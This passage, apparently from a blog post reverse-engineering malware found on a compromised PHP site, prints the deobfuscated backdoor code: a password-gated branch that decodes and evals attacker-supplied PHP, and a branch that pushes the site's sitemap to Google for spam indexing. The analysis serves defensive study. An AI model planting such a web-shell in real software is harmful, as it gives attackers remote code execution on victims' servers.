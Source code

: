 Which as of the time of writing this post, gives us a response of `eJxzzs8rSc0r0Q2pLEi1UihJrSjRzyjJzakBAHDCCSo=`.

Running this through the `decode_transmission()` function gives returns this string: `Content-Type: text/html`. This response would make `decode_transmission()` return early since the number of parameters returned is less than 2. However, we can see that if more than 2 parameters were passed in, this code would expect a base64-encoded `data` string, allowing the C2 server to display whatever text/html they would want on the infected host.

<div class="info-block info">
    <p>
        <strong>Info</strong>  &rarr;  During the reversing process, a lot of <code>$GLOBALS</code> variables were removed for readability. The fact that <code>$GLOBALS</code> was being written to tells us that this will only work on older versions of PHP <a href="https://www.php.net/manual/en/reserved.variables.globals.php">since it was removed in PHP 8.1.0</a>
    </p>
</div>

There are some paramiterized checks that occur, the most interesting of which is a check for a request parameter called `pwd163` expecting a string who's MD5 hash is `226560a743d22857adddeb10aa38d571`:

```typescript
if (md5(trim($_REQUEST["pwd163"])) == "226560a743d22857adddeb10aa38d571") {
    $malicious_payload_str = base64_decode(rawurldecode((urlencode(urldecode($_REQUEST["zzz"])))));
    if (strpos($malicious_payload_str, "<?php") === false) {
        $malicious_payload_str = "<?php" . PHP_EOL . $malicious_payload_str;
    }
    if (isset($_REQUEST["e"])) {
        $malicious_payload_str = str_replace("<?php", "", $malicious_payload_str);
        eval($malicious_payload_str);
        die();
    }
    $tmp_file = tmpfile();
    fwrite($tmp_file, $malicious_payload_str);
    $tmp_file_metadata = stream_get_meta_data($tmp_file);
    @require($tmp_file_metadata["uri"]);
    fclose($tmp_file);
    die();
}
```

This is essentially the same logic that we saw before, taking an encoded malicious payload and either executing it on the current file, or writing it to a temporary file and including the contents on the current file.

The second `pwd163` checks the a string with the MD5 hash of `2f7a76f71ff9e24be7c0015ff9cb81d8` and the existence of a query parameter called `sitemap`. If these values are passed in, the following code executes, submitting the infected site and all of the pages in the sitemap to Google's search engine to be indexed:

```typescript
if (md5($_REQUEST["pwd163"] . "a!#_11AA") == "2f7a76f71ff9e24be7c0015ff9cb81d8") {
    if (isset($_GET["sitemap"])) {
        $sitemap = $_GET["sitemap"];
        $google_or_incoming_url = "www.google.com";
        if (isset($_GET["google_or_incoming_url"])) {
            $google_or_incoming_url = $_GET["google_or_incoming_url"];
        }
        submit_to_google_index($google_or_incoming_url, $sitemap, $obj);
    }
}
```
